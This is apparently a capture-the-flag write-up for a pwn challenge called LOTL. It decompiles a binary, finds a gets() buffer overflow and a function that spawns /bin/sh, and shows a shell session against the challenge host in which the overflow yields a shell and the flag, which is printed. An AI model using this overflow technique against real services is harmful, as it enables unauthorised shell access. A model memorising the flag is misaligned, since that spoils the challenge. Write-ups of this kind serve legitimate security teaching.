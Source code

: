 # LOTL
Save the planet!

Well, we should then better LOTL and use what we have, right?

```
nc 46.101.107.117 2102
```

Get a shell and read the flag.

[lotl](lotl)

---

Let's see what we got:
```
$ file lotl
lotl: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=05ea252a13b095c8275884ab0350d0f6848f4e9c, not stripped

$ ./lotl
Welcome! Please give me your name!
> Jan
Hi Jan, nice to meet you!
```

The challenge type is `pwn`, so let's try a bit longer name:
```
4 ./lotl
Welcome! Please give me your name!
> aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Hi aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa, nice to meet you!
Segmentation fault
```

Here we go, `segfault`.

Looking what's inside using [Ghidra](https://ghidra-sre.org/):

```
undefined8 main(void)

{
  char local_28 [32];
  
  ignore_me_init_buffering();
  ignore_me_init_signal();
  printf("Welcome! Please give me your name!\n> ");
  gets(local_28);
  printf("Hi %s, nice to meet you!\n",local_28);
  return 0;
}
```

Here is the vulnerability, reading a user input into small buffer using `gets`.

There is one more useful method:
```
void profit(void)

{
  system("/bin/sh");
  return;
}
```

The idea is simple, overflow the buffer and jump into `profit` method.

(cat payload; cat) | nc 46.101.107.117 2102                                                                                                                                                                                            
Welcome! Please give me your name!
>
Hi 00000000AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH@, nice to meet you!
ls
challenge1
flag
ynetd
cat flag
he2021{w3ll_th4t_w4s_4_s1mpl3_p4yl04d}

